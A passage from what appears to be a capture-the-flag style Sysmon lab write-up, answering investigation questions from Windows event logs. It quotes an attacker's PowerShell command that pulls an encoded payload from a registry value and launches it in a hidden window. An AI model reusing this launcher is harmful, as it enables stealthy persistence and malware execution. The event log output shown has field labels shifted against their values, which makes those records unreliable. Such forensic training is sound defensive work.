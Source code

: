 Answer :

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;
```
{: .nolineno }

### Investigation 3.2
#### What is the IP of the adversary in Investigation 3.2?
After looking at event viewer :

```powershell
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=3' | fl

TimeCreated  : 2/5/2018 7:08:55 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 3
Message      : Network connection detected:
               RuleName: 2018-02-05 07:08:53.923
               UtcTime: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               ProcessGuid: 11020
               ProcessId: 0
               Image: DESKTOP-O153T4R\q
               User: tcp
               Protocol: true
               Initiated: false
               SourceIsIpv6: 172.168.103.167
               SourceIp: DESKTOP-O153T4R.SSG-350M
               SourceHostname: 52984
               SourcePort: 0
               SourcePortName: false
               DestinationIsIpv6: 172.168.103.188
               DestinationIp: ACA867BC.ipt.aol.com
               DestinationHostname: 80
               DestinationPort: 0
               DestinationPortName: %18
```
{: .nolineno }

Answer : 172.168.103.188

#### What is the full path of the payload location in Investigation 3.2?

```powershell
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=1' | fl

TimeCreated  : 2/5/2018 7:08:53 AM
[...]

TimeCreated  : 2/5/2018 7:08:53 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 1
Message      : Process Create:
               RuleName: 2018-02-05 07:08:53.750
               UtcTime: {b231f4ab-0305-5a78-0000-00101b276402}
               ProcessGuid: 8992
               ProcessId: 0
               Image: 10.0.16299.15 (WinBuild.160101.0800)
               FileVersion: Task Scheduler Configuration Tool
               Description: Microsoft® Windows® Operating System
               Product: Microsoft Corporation
```